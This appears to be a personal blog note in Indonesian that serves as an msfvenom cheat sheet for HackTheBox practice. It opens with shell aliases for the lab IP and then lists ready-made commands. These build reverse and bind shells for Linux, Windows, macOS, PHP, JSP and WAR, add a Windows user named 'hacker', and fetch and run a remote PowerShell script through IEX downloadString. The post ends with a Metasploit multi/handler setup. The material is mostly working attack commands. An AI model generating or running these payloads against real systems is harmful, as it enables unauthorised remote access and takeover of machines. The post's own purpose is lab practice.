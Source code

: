 ```yaml
---
layout: post
title: "Note: msfvenom cheatsheet"
date: 2022-10-13
---
```


sudah saya bilang saya orangnya mageran, dan ingin mengumpulkan sebanyak mungkin resource yang sering lupa, walaupun sudah menggunakan `kitty` sebagai terminal dan `zsh` sebagai shell utama.
tetap saja saya sering saja lupa.

sebelum itu saya sudah mencoba membuat `export` variable ke `.zshrc` agar tidak menggunakan perintah `ip add`, terus terusan. Dan saya menginstall `xclip` untuk mengirim argument ke clipboard.
dan mencoba menjadikannya sebagai alias `cboard` untuk memendekkanya.
```sh
HTB_HOST=$(ip add show tun0 2>&1 | tail +3 | head -1 | cut -f6 -d " " | awk '{print substr( $0, 1, length($0)-3)}') # htb ip address
CUSTOM_HOST=$(ip add show vboxnet0 2>&1 | tail +3 | head -1 | cut -f6 -d " " | awk '{print substr( $0, 1, length($0)-3)}') # biar ga repot aja sih while playing custom virtual machines.
```
ini dia tampaknya.
```sh
alias cboard="xclip -sel clipboard"
```
## msfvenom cheatsheet
```
msfvenom -l payloads 
msfvenom -p PAYLOAD --list-options 
msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf #Linux Meterpreter reverse shell x86 multi stage
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf #Linux Meterpreter bind shell x86 multi stage
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf # Linux bind shell x64 single stage
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf  #Linux reverse shell x64 single stage 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows Meterpreter reverse shell 
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe  #Windows Meterpreter #http reverse shell 
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe  #Windows Meterpreter bind shell 
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows CMD Multi Stage 
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows CMD Single Stage 
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe  #Windows add user 
msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho  #Mac Reverse Shell 
msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho  #Mac Bind shell 
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py  #Python Shell 
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh  #BASH Shell 
msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl  #PERL Shell 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp  #ASP Meterpreter shell 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp  #JSP Shell 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war  #WAR Shell 
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php  pbcopy && echo '?php '  tr -d '\n' shell.php && pbpaste shell.php  #Php Meterpreter Shell 
 msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php  #Php Reverse Shell 
 msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f python  #Windows Exec Nishang Powershell in python 
 msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"  #Bad characters shikata_ga_nai 
 msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"  #Bad characters fnstenv_mov 
```
## multi handler
```
msf> use exploit/multi/handler  
msf> set payload windows/meterpreter/reverse_tcp  
msf> set lhost <IP>  
msf> set lport <PORT>  
msf> set ExitOnSession false  
msf> exploit -j  
```
## references
* <https://github.com/frizb/MSF-Venom-Cheatsheet>
* <https://pentestwiki.org/msfvenom-payloads-cheat-sheet/>

